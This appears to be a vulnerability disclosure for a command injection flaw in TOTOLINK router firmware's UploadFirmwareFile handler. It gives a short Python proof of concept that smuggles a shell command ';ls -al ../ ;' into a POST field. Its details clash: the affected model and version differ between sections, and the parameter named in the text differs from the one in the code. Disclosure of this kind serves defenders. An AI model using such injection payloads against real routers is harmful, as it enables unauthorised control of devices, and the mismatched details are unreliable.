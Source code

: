 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

## Affected version

A3300R V17.0.0cu.557_B20221024

## Vulnerability details

In the A3700R V9.1.2u.5822_B20200513 firmware has a command injection vulnerability in the `UploadFirmwareFile` function. The `v2` variable receives the `FileName` parameter from a POST request. However, since the user can control the input of `FileName`, the statement `doSystem` can cause a command injection vulnerability.

![image-20240722023936258](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240722023936258.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"topicurl":"UploadFirmwareFile","ssid":";ls -al ../ ;"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721213628055](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721213628055.png)
